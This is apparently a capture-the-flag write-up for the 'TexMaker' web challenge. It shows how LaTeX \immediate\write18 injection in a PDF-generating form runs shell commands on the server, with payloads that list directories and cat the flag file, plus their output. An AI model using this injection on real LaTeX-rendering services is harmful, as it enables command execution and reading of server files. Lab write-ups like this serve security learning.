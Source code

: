 #TexMaker

**Category:** Web
**Points:** 90

**Description:**

Creating and using coperate templates is sometimes really hard. Luckily, we have a webinterace for creating PDF files. Some people doubt it's secure, but I reviewed the whole code and did not find any flaws.

Service: https://texmaker.ctf.internetwache.org

##TexMaker-Solution:

By viewing the given webpage, we will see a form that takes LATEX commands from use and
generate corresponded pdf to our inputs.

![Image of 1]
(./images/1.png)

This kind of stuff only ring one bell!!! Code Execution.

But how?

For solving this challenge we should find commands that let users execute shell commands.
By searching google for it, I ended in this page: 'http://tex.stackexchange.com/questions/16790/write18-capturing-shell-script-output-as-command-variable'

For example for viewing the result of ```ls -la``` in current directory, We will have something like below in our latex file:

```
\documentclass{minimal}

\begin{document}

File listing is:

\immediate\write18{ls /usr}

\end{document}
```

As we can see by using of ```\immediate\write18``` we can execut3 any command that we want.
But remember in this injection, we doesn't need to insert \documentclass & ... in the form field.
Cause they make instructure of LATEX file and server automatically will insert this commands. So if you
insert one of those header commands, will cause error.

For exploit this task, i used this commands in form field:

```
\immediate\write18{ls -la / }
```

![Image of 2]
(./images/2.png)

It will generate a pdf for us. by viewing the generated pdf, we can see that outputs of 'ls -la' commands, are
not shown in pdf. After surfing a little more on this challenge and trying some other commands, i found out that
The results are shown in the debug section in the bottom of that page.
This is the result of ```ls -la``` command shown in debug section:

```
LaTeX Font Warning: Font shape `OT1/cmss/m/sc' in size <10.95> not available
(Font)              Font shape `OT1/cmr/m/sc' tried instead on input line 70.

(/usr/share/texmf/tex/latex/lm/ot1lmr.fd)
(/usr/share/texmf/tex/latex/lm/omllmm.fd)
(/usr/share/texmf/tex/latex/lm/omslmsy.fd)
(/usr/share/texmf/tex/latex/lm/omxlmex.fd)
(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/umsa.fd)
(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/umsb.fd)total 96
drwxr-xr-x   25 root root  4096 Feb 20 10:05 .
drwxr-xr-x   25 root root  4096 Feb 20 10:05 ..
drwxrwxr-x    2 root root  4096 Feb 19 15:37 bin
drwxr-xr-x    3 root root  4096 Feb 19 15:38 boot
drwxr-xr-x    2 root root  4096 Feb 12 01:03 command
drwxr-xr-x   16 root root  2800 Feb 20 10:05 dev
drwxr-xr-x  109 root root  4096 Feb 20 10:12 etc
drwxr-xr-x    2 root root  4096 Jan  6 16:18 home
lrwxrwxrwx    1 root root    31 Feb  3 02:40 initrd.img -> /boot/initrd.img-3.16.0-4-amd64
drwxr-xr-x   15 root root  4096 Feb 19 15:37 lib
drwxr-xr-x    2 root root  4096 Feb 17 23:14 lib64
drwx------    2 root root 16384 Feb  3 02:39 lost+found
drwxr-xr-x    3 root root  4096 Feb  3 02:39 media
drwxr-xr-x    2 root root  4096 Feb  3 02:39 mnt
drwxr-xr-x    4 root root  4096 Feb 11 03:09 opt
drwxrwxr-t    3 root root  4096 Feb 12 01:03 package
dr-xr-xr-x  115 root root     0 Feb 20 10:05 proc
drwx------    6 root root  4096 Feb 21 12:46 root
drwxr-xr-x   20 root root   700 Feb 21 06:25 run
drwxr-xr-x    2 root root  4096 Feb 19 15:37 sbin
drwxr-xr-x    2 root root  4096 Feb 12 01:06 service
drwxr-xr-x    2 root root  4096 Feb  3 02:39 srv
dr-xr-xr-x   13 root root     0 Feb 20 12:20 sys
drwxrwxrwt+   7 root root  4096 Feb 21 13:40 tmp
drwxr-xr-x   10 root root  4096 Feb  3 02:39 usr
drwxr-xr-x   12 root root  4096 Feb 11 01:44 var
lrwxrwxrwx    1 root root    27 Feb  3 02:40 vmlinuz -> boot/vmlinuz-3.16.0-4-amd64
 [1{/var/lib/texmf/fo
nts/map/pdftex/updmap/pdftex.map}] (./87d3032d814794adcb2030b15eeabc1c.aux) )</
usr/share/texlive/texmf-dist/fonts/type1/public/amsfonts/cm/cmcsc10.pfb></usr/s
hare/texlive/texmf-dist/fonts/type1/public/amsfonts/cm/cmss10.pfb></usr/share/t
exlive/texmf-dist/fonts/type1/public/amsfonts/cm/cmss12.pfb></usr/share/texlive
/texmf-dist/fonts/type1/public/amsfonts/cm/cmss17.pfb>
Output written on 87d3032d814794adcb2030b15eeabc1c.pdf (1 page, 34379 bytes).
Transcript written on 87d3032d814794adcb2030b15eeabc1c.log.
```

From now on is simple. We only need to find the flag and read it:

```
\immediate\write18{ls -la /var/www/}

drwxr-xr-x  8 root root     4096 Feb 11 02:03 .
drwxr-xr-x 12 root root     4096 Feb 11 01:44 ..
drwxr-x---  3 root web80    4096 Feb 11 02:39 0ldsk00lblog.ctf.internetwache.org
drwxr-x---  3 root web50    4096 Feb 20 15:16 mess-of-hash.ctf.internetwache.org
drwxr-x---  3 root crypto80 4096 Feb 11 02:35 procrastination.ctf.internetwache.org
drwxr-x---  3 root web60    4096 Feb 20 12:13 replace-with-grace.ctf.internetwache.org
drwxr-x---  6 root web90    4096 Feb 21 05:23 texmaker.ctf.internetwache.org
drwxr-x---  3 root web70    4096 Feb 20 15:58 the-secret-store.ctf.internetwache.org
```

```
\immediate\write18{ls -la /var/www/texmaker.ctf.internetwache.org}

drwxr-x--- 6 root web90   4096 Feb 21 05:23 .
drwxr-xr-x 8 root root    4096 Feb 11 02:03 ..
-rw-r--r-- 1 root web90   1089 Feb 11 02:52 ajax.php
drwxr-xr-x 4 root web90   4096 Feb 11 02:52 assets
-rwxr-xr-x 1 root web90    114 Feb 11 02:52 cleanpdfdir.sh
drwxrwxrwt 3 root root   32768 Feb 21 14:45 compile
-rw-r--r-- 1 root web90    279 Feb 11 02:52 config.php
-rw-r--r-- 1 root web90    279 Feb 11 02:52 config.php.sample
-rw-r--r-- 1 root web90     50 Feb 11 02:52 flag.php
-rw-r--r-- 1 root web90   2743 Feb 11 02:52 index.php
drwxrwxrwt 2 root root  618496 Feb 21 14:44 pdf
drwxr-xr-x 5 root web90   4096 Feb 11 02:52 template
```

And bammm. We see a flag.php file. lets read it:

```
\immediate\write18{cat /var/www/texmaker.ctf.internetwache.org/flag.php }

<?php
$FLAG = "IW{L4T3x_IS_Tur1ng_c0mpl3te}";
?>
```

The flag is : **IW{L4T3x_IS_Tur1ng_c0mpl3te}**
